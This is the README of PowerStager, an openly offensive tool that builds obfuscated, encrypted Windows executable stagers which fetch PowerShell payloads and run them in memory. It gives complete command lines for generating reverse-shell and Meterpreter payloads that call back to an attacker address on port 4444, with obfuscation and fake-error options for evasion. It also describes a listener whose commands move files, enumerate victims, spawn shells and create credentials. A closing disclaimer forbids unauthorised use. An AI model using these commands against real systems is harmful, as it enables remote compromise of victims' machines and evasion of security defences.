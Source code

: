 PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

Demo
----
[![powerstager demo](https://d1ckdm8qo2u5d0.cloudfront.net/ai/videos/15651711/thumb-160x.jpg?v2r1495997991)](https://vid.me/Tfzr "powerstager demo - Click to Watch!")

How to use
----------

Prerequisites:

	python3
	python3-setuptools
	i686-w64-mingw32-gcc
	x86_64-w64-mingw32-gcc
	i686-w64-mingw32-windres
	x86_64-w64-mingw32-windres
	
Prerequisites (python3 modules):

	os
	sys
	getopt
	glob
	socket
	fcntl
	errno
	string
	re
	random
	base64
	datetime
	time
	hashlib
	readline
	signal
	urllib
	names

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a reverse shell payload to upload:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded reverse shell payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate a meterpreter payload to upload:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded meterpreter payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate an embedded custom payload:

	powerstager --target win64 \
	--path input.ps1
	--output out.exe

Open a reverse shell listener:

	powerstager --listener \
	--lport 4444

Reverse shell listener commands:
* Local-Invoke
  *Invokes powershell script files from host*

* Local-Import-Module
  *Imports powershell modules from host*

* Local-Set-Width
  *Changes the buffer width on remote client*

* Local-Upload
  *Uploads files from host*

* Local-Download
  *Downloads files from client*

* Local-Download-Commands
  *Downloads available powershell commands from client*

* Local-Enumerate-System
  *Runs enumeration scripts on client*

* Local-Check-Status
  *Collects user and privilage status from client*

* Local-Spawn-Meterpreter
  *Spawns meterpreter shells on client*

* Local-Spawn-Reverse-Shell
  *Spawns reverse shells on client*

* Local-Credential-Create
  *Creates credentials on client*

* Local-Credential-List
  *Lists created credentials on client*


## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
